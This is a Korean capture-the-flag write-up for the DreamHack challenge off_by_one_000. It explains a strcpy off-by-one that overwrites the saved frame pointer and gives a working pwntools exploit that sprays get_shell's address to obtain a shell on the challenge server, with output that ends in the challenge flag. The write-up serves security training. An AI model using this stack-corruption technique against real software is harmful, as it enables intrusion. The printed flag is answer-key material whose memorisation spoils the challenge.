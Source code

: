 # [DreamHack] off_by_one_000

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(off_by_one_000)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 get_shell 함수를 실행시키세요.
> 셸을 획득한 후, “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [off_by_one_000.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8540249/off_by_one_000.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/162665874-eb03e1ac-bf4e-4116-8a0c-270f0a6346a9.png)

## Analysis

```c
char cp_name[256];

int cpy()
{
    char real_name[256];
    strcpy(real_name, cp_name); // off-by-one
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}
```

`cpy()`의 스택은 `real_name` `0x100`바이트, SFP, return address로 구성되어 있다. `cp_name`에 `0x100`바이트를 가득 채우면 `strcpy()`로 복사할 때 끝에 `'\x00'`이 붙어서 SFB의 하위 1바이트를 `'\x00'`으로 덮게 된다.

![image](https://user-images.githubusercontent.com/102066383/162666301-9b35d398-8938-4b97-bf8d-a6198133d3f4.png)

그러면 `cpy()`가 리턴한 후 `main()`의 `ebp`가 `cpy()`의 스택 프레임 안쪽에 있게 되고, `main()`의 return address도 마찬가지이다.

![image](https://user-images.githubusercontent.com/102066383/162666414-d3934edf-bf57-46a1-b780-f9dfd6c6eb91.png)

이 위치에 `get_shell()`의 주소를 넣어두면 `main()`은 `get_shell()`로 리턴하게 되고, 셸을 획득할 수 있다. 그런데 스택 주소는 고정되어 있지 않으므로 스택의 모든 칸에 `get_shell()`의 주소를 넣어두면 무조건 익스플로잇을 성공시킬 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/off_by_one_000')
else:
    r = remote('host1.dreamhack.games', 15259)

get_shell = 0x80485db # get_shell()

payload = p32(get_shell) * 0x40

r.sendafter('Name: ', payload)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 15259: Done
/home/n1be/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:812: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
Name: ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04ۅ\x04$ cat flag
DH{fef043d0dbe030d01756c23b78a660ae}
```